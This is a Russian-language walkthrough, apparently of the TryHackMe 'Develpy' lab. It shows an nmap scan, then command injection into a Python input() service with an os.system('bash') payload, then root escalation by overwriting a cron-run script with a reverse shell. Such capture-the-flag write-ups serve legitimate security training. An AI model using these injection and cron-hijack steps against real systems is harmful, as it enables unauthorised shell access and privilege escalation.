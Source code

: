 # Develpy

:white_check_mark: **nc**

:white_check_mark: **python**

:white_check_mark: **crontab**
___
<br>
<br>

## Разведка
---
Сканируем ip командой:
```
nmap -vv -p 1-10000 develpy.thm
```

```
PORT      STATE SERVICE          REASON                                                                  
22/tcp    open  ssh              syn-ack ttl 63                                                          
10000/tcp open  snet-sensor-mgmt syn-ack ttl 63                                                          
                                                                                                         
Read data files from: /usr/bin/../share/nmap                                                         
```
<br>
<br>

## Получение оболочки
____
Взглянем на порт 10000. Попробуем подключиться по **nc**

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/develpy/1.png)

Мы имеем дело с программой на python и для ввода используется функция "**input()**". Можем попытаться запустить системную команду.

```
__import__("os").system("bash")
```
<br>
<br>

## Повышение привилегий
___
Посмотрим что находится в crontab.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/develpy/2.png)

Файл root.sh запускается с правами root. Удаляем файл root.sh и записываем в новый обратную оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/develpy/3.png)

Немного ждем и получаем оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/develpy/4.png)
